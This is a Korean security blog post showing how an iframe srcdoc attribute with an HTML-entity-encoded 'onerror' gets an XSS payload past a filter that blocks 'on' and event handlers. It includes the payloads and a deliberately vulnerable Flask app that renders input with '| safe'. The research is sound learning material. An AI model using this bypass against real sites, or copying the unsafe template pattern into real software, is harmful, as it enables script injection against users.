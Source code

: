 ```yaml
---
title: XSS with srcdoc
date: 2024-03-22
author: glasses96
categories: [WEB]
tags: [XSS]
pin: true
math: true
mermaid: true
---
```


> **HTML5 태그를 통해 Real World에서 발생한 XSS 취약점을 알아봅시다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## srcdoc

\<iframe\> 태그의 <span style="color:#9999FF">srcdoc</span> 속성은 \<iframe\> 요소에 보일 웹 페이지의 HTML 코드를 명시합니다.

`srcdoc 속성이 명시되어 있고 해당 브라우저가 srcdoc 속성을 지원`하면, \<iframe\> 요소의 src 속성값은 `srcdoc 속성값으로 재정의`가 됩니다.

그러나 srcdoc 속성이 명시되어 있지만 해당 브라우저가 srcdoc 속성을 지원하지 않으면, 브라우저는 src 속성에 명시된 파일을 \<iframe\> 요소에 보여줍니다.

### Example CODE

```html

<iframe srcdoc="<p>Hello World!!</p>" src="http://tcpschool.com">
    <p>Hi</p>
</iframe>

```

## How Exploit XSS?
해당 웹에서 기본적인 XSS 구문(`<,>,이벤트핸들러`)는 필터링이 되어있었습니다.  
추가적으로 `<p>`,`<img>`, `<iframe>` 3개의 태그는 가능했고 이벤트 핸들러(hex encoding)를 이용해서 터뜨릴려고 했지만 `&#79`를 넣으면 응답 값에는 &#79 -> o로 변환대지 않고 &#79nerror가 되어 이벤트 핸들러가 먹히지 않았습니다.

그러나 `srcdoc` 속성에 hex encoding을 이용하니 XSS가 가능했습니다.

```html
-> 필터링 <iframe srcdoc="onerror=alert(document.domain)">
-> XSS 가능<iframe srcdoc="<img src=x &#79nerror=alert(document.domain)>"></iframe>
```

## TEST XSS
다음과 같은 코드가 있다고 해봅시다.
`<img>`,`<iframe>` 태그만 되도록해야하지만 이것만 된다고 가정을 하고 내가 입력한 param 변수에 `on` 이라는 문자열이 걸리면 filtered로 됩니다.

```py
from flask import Flask, render_template
import os

app = Flask(__name__)

@app.route('/')
def index():

    param = request.args.get("param","param")
    if "on" in param:
        return "filtered"
    else :
        return render_template('index.html',param=param)



if __name__ == '__main__':
    app.run(port=5000)
```

```html
<!DOCTYPE html>
<head></head>
<body>
    <h1> \{\{param \| safe\}\}</h1>
	\을 안넣으면 코드가 화면에 안보임....

</body>

</html>
```

### STEP 1

`<img src=x onerror=alert(1)>` 을 입력했을 때의 결과입니다.  
필터링 로직을 통과하지 못해 filtered가 출력되었습니다. 

![filtered](/assets/post/56/1.png)

### STEP 2

`<img src=x &#79nerror=alert(1)>` 을 입력했을 때의 결과입니다.  
onerror가 &#79nerror로 그대로 반영되어 이벤트 핸들러로 동작을 하지 않습니다.

![filtered](/assets/post/56/2.png)


### STEP 3

`<iframe srcdoc="<img src=x &#79nerror=alert(1)>"></iframe>` 을 입력했을 때의 결과입니다.  
&#79 -> 대문자(O)로 변환되었고 이벤트 핸들러로 동작을 하게 됩니다.

![filtered](/assets/post/56/3.png)
![filtered](/assets/post/56/4.png)

## 마치며
Hex Encoding이 동작하는지는... 좀 더 공부를 해봐야 할 꺼 같습니다.  
그래도 새로운 공격 페이로드를 찾았다는 점에 기쁩니다.
